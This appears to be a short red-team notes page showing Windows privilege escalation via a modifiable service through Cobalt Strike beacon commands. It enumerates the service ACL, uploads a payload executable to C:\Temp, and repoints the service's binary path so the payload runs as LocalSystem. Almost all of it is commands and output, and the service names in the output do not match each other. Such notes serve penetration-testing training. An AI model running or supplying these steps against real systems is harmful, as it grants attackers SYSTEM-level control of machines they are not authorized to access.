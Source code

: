 #### PowerShell - Get permissions of modifiable service

```powershell
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

### Change Service Binary Path

We can exploit this by changing the binary path of the modifiable service to a location that stores our payload.

#### Get Current Service Binary Path

```powershell
beacon> run sc qc VulnService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnService2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vulnerable Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

#### Upload Binary Payload

```powershell
beacon> mkdir C:\Temp
beacon> cd C:\Temp
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
```

#### Configure & Run Service

```powershell
beacon> run sc config VulnService binPath= C:\Temp\tcp-local_x64.svc.exe
[SC] ChangeServiceConfig SUCCESS
```

#### Validate the Service has been updated

```powershell
beacon> run sc qc VulnService

SERVICE_NAME: Vuln-Service-2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Temp\tcp-local_x64.svc.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```